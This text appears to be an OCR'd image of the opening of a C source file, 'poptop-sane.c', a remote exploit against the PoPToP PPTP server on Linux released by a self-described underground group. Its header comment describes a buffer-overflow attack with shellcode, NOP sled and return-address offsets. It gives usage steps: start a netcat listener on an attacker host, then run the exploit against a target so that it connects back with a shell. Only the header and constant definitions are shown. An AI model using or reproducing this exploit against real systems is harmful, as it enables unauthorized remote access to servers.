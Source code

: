 EXP
---

    /*
     * Fixed Exploit against PoPToP in Linux (poptop-sane.c)
     * ./r4nc0rwh0r3 of blightninjas (blightninjas@hushmail.com)
     *
     * blightninjas: bringing pain, suffering, and humiliation to the security world
     * Expect more great release like helloworld-annotated.c and
     * cd explained whitepaper, we are working hard in da underground
     *
     * Other Editions Available At:
     *   http://www.freewebs.com/blightninjas/
     *
     *  *** Bugtraq Clean Edition ***
     * Based off of code by einstein_dhtm@front.ru
     *
     * Notes on the exploit:
     * This was only tested under slackware, RET_OFF could possibly
     * be different.
     * You can have nulls in the shellcode (the hole is in a read())
     * This allows you to have ips and ports with nulls in them
     *
     * Shouts to ADM, TESO, and all the other "cool" groups that never give us 0day
     *
     * Examples:
     * attack target 1
     * nc -v -l -p 10000 <-- on 1.1.1.2
     * ./poptop-sane 1.1.1.1 1.1.1.2 10000 -t 1
     * don't come to use, we come to you.
     *
     * ./poptop-sane 1.1.1.1 1.1.1.2 10000 -t
     * list targets
     *
     * ./poptop-sane 1.1.1.1 1.1.1.2 10000 -r 0xbffff600
     * attack using ret address 0xbffff600
     *
     * I think you get the point
     */

    #include <stdio.h>
    #include <sys/socket.h>
    #include <netinet/in.h>
    #include <signal.h>

    #define NOP_LENGTH 140
    // I calculate at 336, I'll fudge to make more general
    #define RET_OFF 320
    #define MAX_HOSTNAME_SIZE               64
    #define MAX_VENDOR_SIZE                 64
    #define PPTP_VERSION                    0x0100
    /* Magic Cookie */
    #define PPTP_MAGIC_COOKIE               0x1a2b3c4d
